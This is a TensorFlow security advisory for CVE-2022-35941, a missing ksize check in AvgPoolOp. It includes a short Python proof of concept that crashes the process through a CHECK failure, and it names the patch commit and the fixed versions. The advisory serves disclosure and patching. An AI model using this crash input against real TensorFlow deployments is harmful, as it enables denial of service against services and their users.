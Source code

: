 ## TFSA-2022-091: `CHECK` failure in `AvgPoolOp`

### CVE Number
CVE-2022-35941

### Impact
The [`AvgPoolOp`](https://github.com/tensorflow/tensorflow/blob/8d72537c6abf5a44103b57b9c2e22c14f5f49698/tensorflow/core/kernels/avgpooling_op.cc#L56-L98) function takes an argument `ksize` that must be positive but is not checked. A negative `ksize` can trigger a `CHECK` failure and crash the program.
```python
import tensorflow as tf
import numpy as np

value = np.ones([1, 1, 1, 1])
ksize = [1, 1e20, 1, 1]
strides = [1, 1, 1, 1]
padding = 'SAME'
data_format = 'NHWC'

tf.raw_ops.AvgPool(value=value, ksize=ksize, strides=strides, padding=padding, data_format=data_format)
```

### Patches
We have patched the issue in GitHub commit [3a6ac52664c6c095aa2b114e742b0aa17fdce78f](https://github.com/tensorflow/tensorflow/commit/3a6ac52664c6c095aa2b114e742b0aa17fdce78f).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Jingyi Shi.
